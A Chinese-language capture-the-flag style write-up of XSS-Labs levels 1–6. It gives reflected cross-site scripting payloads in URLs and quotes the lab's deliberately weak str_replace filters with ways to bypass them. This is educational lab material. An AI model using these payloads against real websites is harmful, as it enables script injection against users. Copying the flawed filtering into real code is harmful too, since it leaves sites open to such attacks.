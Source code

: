 # XSS-Labs

## Level1

<pre class="wp-block-code"><code>url/?name=&lt;script&gt;alert(1)&lt;/script&gt;</code></pre>

## Level2

考察符号的闭合

<pre class="wp-block-code"><code>url/?keyword='"&gt;&lt;script&gt;alert(1)&lt;/script&gt;</code></pre>

## Level3

`htmlspecialchars()` 函数把预定义的字符转换为 HTML 实体。考察过滤<、>、"等的绕过。

<pre class="wp-block-code"><code>url?keyword=' autofocus onfocus=alert(1)//</code></pre>

## Level4

会删除掉<和>

<pre class="wp-block-code"><code>$str2=str_replace(">","",$str);
$str3=str_replace("&lt;","",$str2);</code></pre>

和上一关类似，构造

<pre class="wp-block-code"><code>url/?keyword=" autofocus onmouseover=alert(1)//</code></pre>

## Level5

这关会先全部转成小写，然后替换掉<script和on。

<pre class="wp-block-code"><code>$str = strtolower($_GET&#91;"keyword"]);
$str2=str_replace("&lt;script","&lt;scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);</code></pre>

利用a标签的href属性执行javascript:伪协议来绕过

<pre class="wp-block-code"><code>url/?keyword=">&lt;a href='javascript:alert(1)'></code></pre>

## Level6

替换多种关键字。

<pre class="wp-block-code"><code>$str2=str_replace("&lt;script","&lt;scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);</code></pre>

利用大写绕过。
